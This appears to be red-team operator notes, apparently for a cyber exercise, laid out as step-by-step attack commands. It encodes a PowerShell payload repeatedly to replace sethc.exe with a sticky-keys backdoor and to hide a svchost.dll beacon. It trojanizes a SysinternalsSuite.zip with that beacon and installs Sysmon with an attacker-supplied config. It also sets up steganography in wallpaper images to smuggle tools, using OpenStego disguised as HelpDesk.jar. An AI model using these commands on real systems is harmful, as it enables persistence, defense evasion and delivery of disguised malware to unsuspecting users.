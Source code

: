 Run doge64commander.sh to encode the script

cd "/home/kali/Desktop/tools/Service Pack/HelpDesk Service Pack"
/home/kali/Desktop/tools/doge64commander.sh ; mv commanded.ps1 sysmonsetup.ps1

Encode the following and iterate it 15 to 25 times

takeown /f "C:\\windows\\System32\\sethc.exe" /a > $null ; icacls.exe C:\\Windows\\System32\\sethc.exe /grant "Everyone:F" > $null ; cd \"C:\\Users\\Public\\'HelpDesk Service Pack'\"; Set-ItemProperty -Path C:\\Windows\\System32\\svchost.dll -Name Attributes -Value ([System.IO.FileAttributes]::Hidden) > $null ; copy sethc.exe C:\\Windows\\System32\\sethc.exe -force ; sysmon.exe -i -accepteula ; sysmon.exe -c sysmonconfig-export.xml ; del sethc.exe -force; sysmon.exe -c -- ; del sysmonconfig-export.xml -force 

Add the beacon into the SysinternalsSuite.zip

cd "/home/kali/Desktop/tools/Service Pack/HelpDesk Service Pack"
unzip -q SysinternalsSuite.zip -d temp && cp ../svchost.dll temp/ && rm SysinternalsSuite.zip && cd temp && zip -q -r ../SysinternalsSuite.zip . && cd .. && rm -rf temp

Getting 4k - 8k images for STEGO

Download Images: https://unsplash.com/collections/18134858/8k-wallpapers 

Downloaded a few to use, one of them can have a bear, and it will be the cover for getting tools in

Use the same method to download them as we did with the java installer

MAKE SURE THE IMAGE HAS THE SAME EXTENSION AS IT DID WHEN IT WAS ON YOUR HOST MACHINE

cd "/home/kali/Desktop/tools/Service Pack/Wallpaper Engine"

# ENSURE THE FILE EXTENSION MATCHES THE ORIGINAL FILE
wget -O <DESCRIPTIVE NAME> <LINK TO PCTE DOWNLOAD>

Test the Steganography tool

cd ~/Desktop/tools
touch stegtest.txt
echo "This is a test to see if OpenStego works" > stegtest.txt
# hide the test file in the image with OpenStego
java -Xmx6g -jar "./Service Pack/HelpDesk Service Pack/HelpDesk/lib/HelpDesk.jar" embed -a RandomLSB -mf "stegtest.txt" -cf "Service Pack/Wallpaper Engine/<NAME OF IMAGE>" -sf hidden.png -e -p MWMzRjRuZ0IzNzczclRoNG5TNDU1eVA0bmQ0 -A AES128

Validate you can pull the file out of the image

java -Xmx6g -jar "./Service Pack/HelpDesk Service Pack/HelpDesk/lib/HelpDesk.jar" extract -sf hidden.png -xf extracted.txt -p MWMzRjRuZ0IzNzczclRoNG5TNDU1eVA0bmQ0

Verify the files match eachother

sha256sum "stegtest.txt" "extracted.txt" # verify you can retrieve the .txt

The thomas-bonometti-mx6BzzKvWIw-unsplash.png can be replaced with any image you downloaded onto your machine.
